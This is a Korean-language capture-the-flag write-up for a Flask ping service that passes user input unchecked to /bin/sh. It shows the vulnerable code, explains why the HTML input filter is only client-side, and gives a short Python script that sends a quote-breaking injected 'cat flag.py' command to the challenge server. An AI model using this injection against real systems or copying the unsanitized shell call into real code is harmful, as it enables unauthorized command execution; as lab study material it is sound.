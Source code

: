 ## 코드

```python
#!/usr/bin/env python3
import subprocess

from flask import Flask, request, render_template, redirect

from flag import FLAG

APP = Flask(__name__)


@APP.route('/')
def index():
    return render_template('index.html')


@APP.route('/ping', methods=['GET', 'POST'])
def ping():
    if request.method == 'POST':
        host = request.form.get('host')
        cmd = f'ping -c 3 "{host}"'
        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('ping_result.html', data=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('ping_result.html', data='Timeout !')
        except subprocess.CalledProcessError:
            return render_template('ping_result.html', data=f'an error occurred while executing the command. -> {cmd}')

    return render_template('ping.html')


if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

## 풀이

```python
cmd = f'ping -c 3 "{host}"'
```

host를 검증하지 않고 명령어를 실행
따라서 그냥 127.0.0.1; 명령어
이런식으로 하면 됨

인줄 알았는데 템플릿에서 필터링 함

```html
pattern="[A-Za-z0-9.]{5,20}"
```

따라서 템플릿에 입력하지 말고 requests나 burp suite로 요청을 보내면 되겠다.

```python
import requests

if __name__ == "__main__":
    res = requests.post("http://host3.dreamhack.games:19643/ping", {"host": '8.8.8.8";cat flag.py"'})
    print(res.text)
```

이렇게 보내면 되는데, 여기서 중요한 지점은 ""로 명령어를 감싸는 것이다.
왜냐하면 cmd에서 ping -c 3 "8.8.8.8" 와 같이 실행하기 때문에,
명령어 단위에서 ;를 활용해 명령어를 여러개 실행하려면
ping -c 3 "8.8.8.8"; cat flag.py""
이런식으로 해야 한다.
결국엔 코드 상에서 8.8.8.8을 ""로 감싸고 있기 때문에 그래야 했다.
코드를 꼼꼼히 봐야한다..




